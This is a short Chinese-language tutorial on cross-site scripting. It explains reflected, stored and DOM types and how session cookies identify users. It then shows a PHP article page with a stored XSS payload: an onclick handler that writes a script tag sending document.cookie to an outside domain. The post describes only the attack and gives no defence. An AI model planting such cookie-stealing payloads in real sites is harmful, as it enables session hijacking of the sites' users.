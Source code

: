 ### 什么是XSS攻击?
XSS攻击全称跨站脚本攻击 , XSS分为3种类型 分别是反射型 , 存储型 和 DOM型 , 主要是利用 js 和 html 标签未经过转义和过滤

### 正常文章
这是一个php脚本文件 , 作用是启动 session 并在session内存入user_id字段 , 并且展示了一篇文章 , 众所周知 session 其实就是一个cookie , 只不过这个cookie的name是ssid罢了 (可通过php.ini设置session名称) , 而 cookie 的出现是为了解决 http 无状态协议的缺点 , cookie 就是你的身份证 , 如果cookie被盗 那么不法分子可以利用你的cookie(身份证) 为所欲为


```php
<?php

session_start();
$_SESSION['user_id'] = 99;

?>

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
    <style type="text/css">
        div{text-align: center}
    </style>
</head>
<body>
<div>
    <h1>这是一篇文章</h1>
    <p>文章内容</p>
</div>
</body>
</html>
```
![](/assets/xss-1.png)

上面的h1标签和p标签是用户发步的 , 就好比我现在在写这篇文章 , 当我写完点击发送时 , 其实发送的是带标签的html文档 , 我们可以找到发送文章的接口 , 然后将带xss的文章发送出去 , 当然发送的时候需要带你的cookie

### 带XSS的文章
```php
<?php

session_start();
$_SESSION['user_id'] = 99;

?>

<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
    <style type="text/css">
        div{text-align: center}
    </style>
</head>
<body>
<div>
    <h1>这是一篇文章</h1>
    <p onclick="(function(){document.write('<script src=\'https://baidu.com?cookie='+ document.cookie +'\'></script>' )})()">文章内容</p>
</div>
</body>
</html>
```
![](/assets/xss-3.png)
发送后数据将永久的存在于服务器的数据库和文件内 , 可以看到 页面内容完全没有变化 , 但是我注入了一个 onclick 事件 , 他的作用是当用户点击内容的时候 , 会向 baidu.com 的域名上发起一个Get请求 , 参数是cookie , 而如果百度记录了你的请求 , 那么恭喜你 , 你的cookie(包括session)成功被盗
